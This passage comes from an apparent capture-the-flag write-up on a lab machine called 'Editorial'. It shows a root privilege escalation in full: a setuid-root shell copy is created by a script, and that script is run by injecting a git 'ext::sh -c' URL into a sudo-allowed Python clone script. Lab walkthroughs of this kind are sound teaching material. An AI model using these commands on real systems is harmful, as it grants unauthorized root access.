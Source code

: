 
It crashes, but `/tmp/pwned/` exists, and is owned by root:

```

prod@editorial:/$ ls -l /tmp/pwned 
-rw-r--r-- 1 root root 0 Jun 19 18:49 /tmp/pwned

```

#### Escalation

To make this simple, I’ll write a `bash` script that will copy `sh` into `/tmp` and make it run as root:

```

prod@editorial:/$ echo -e '#!/bin/bash\n\ncp /bin/sh /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 6777 /tmp/0xdf'
#!/bin/bash
                                                    
cp /bin/sh /tmp/0xdf      
chown root:root /tmp/0xdf
chmod 6777 /tmp/0xdf
prod@editorial:/$ echo -e '#!/bin/bash\n\ncp /bin/sh /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 6777 /tmp/0xdf' > /dev/shm/0xdf.sh
prod@editorial:/$ chmod +x /dev/shm/0xdf.sh

```

After making that script executable, I’ll pass it to the Python script:

```

prod@editorial:/$ sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /dev/shm/0xdf.sh'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c /dev/shm/0xdf.sh new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'

```
